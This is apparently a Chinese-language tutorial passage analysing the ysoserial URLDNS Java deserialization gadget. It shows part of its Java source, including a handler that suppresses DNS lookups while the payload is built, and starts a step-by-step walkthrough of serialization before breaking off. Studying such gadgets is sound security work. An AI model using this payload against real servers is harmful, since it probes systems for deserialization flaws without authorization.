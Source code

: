 ```

    public static void main(final String[] args) throws Exception {
        PayloadRunner.run(URLDNS.class, args);
    }

    /**
* <p>This instance of URLStreamHandler is used to avoid any DNS resolution while creating the URL instance.
* DNS resolution is used for vulnerability detection. It is important not to probe the given URL prior
* using the serialized object.</p>
*
* <b>Potential false negative:</b>
* <p>If the DNS name is resolved first from the tester computer, the targeted server might get a cache hit on the
* second resolution.</p>

* 防止创建payload的时候发送DNS解析请求
*/
    static class SilentURLStreamHandler extends URLStreamHandler {

        protected URLConnection openConnection(URL u) throws IOException {
            return null;
        }

        protected synchronized InetAddress getHostAddress(URL u) {
            return null;
        }
    }
}
```


## 0x01 序列化过程
1、首先创建了 `SilentURLStreamHandler` 对象 `handler` ，且 `SilentURLStreamHandler` 继承自 `URLStreamHandler` 类，然后重写了 `openConnection` 和 `getHostAddress` 两个方法。
```
URLStreamHandler handler = new SilentURLStreamHandler();
```

2、接着创建一个 hashmap ，用于之后进行存储。
```
HashMap ht = new HashMap();
```

3、创建一个 URL 对象，此处需要跟进 URL 类查看类初始化会发生啥。传递三个参数 (null,url,handler)
```
URL u = new URL(null, url, handler);
```

看到使用了 `hander.parseURL` 方法，下面跟进去看一下。


![image](https://user-images.githubusercontent.com/84888757/204568637-8b03a338-eaa8-4831-85e7-fc616330a968.png)
